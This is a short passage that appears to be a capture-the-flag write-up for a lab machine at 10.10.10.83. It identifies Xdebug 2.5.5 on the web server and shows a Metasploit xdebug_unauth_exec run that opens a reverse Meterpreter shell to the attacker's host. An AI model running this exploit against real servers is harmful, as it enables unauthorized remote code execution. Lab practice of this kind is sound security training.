

# Website (80)

`Xdebug 2.5.5` is active on the website.



There is an exploit on this version of `Xdebug` : https://www.exploit-db.com/exploits/44568

```bash
msf6 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 10.10.10.83
RHOSTS => 10.10.10.83
msf6 exploit(unix/http/xdebug_unauth_exec) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(unix/http/xdebug_unauth_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] 10.10.10.83:80 - Waiting for client response.
[*] 10.10.10.83:80 - Receiving response
[*] 10.10.10.83:80 - Shell might take upto a minute to respond.Please be patient.
[*] 10.10.10.83:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 10.10.10.83
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.83:59756) at 2021-05-17 19:34:24 -0500
meterpreter >
```
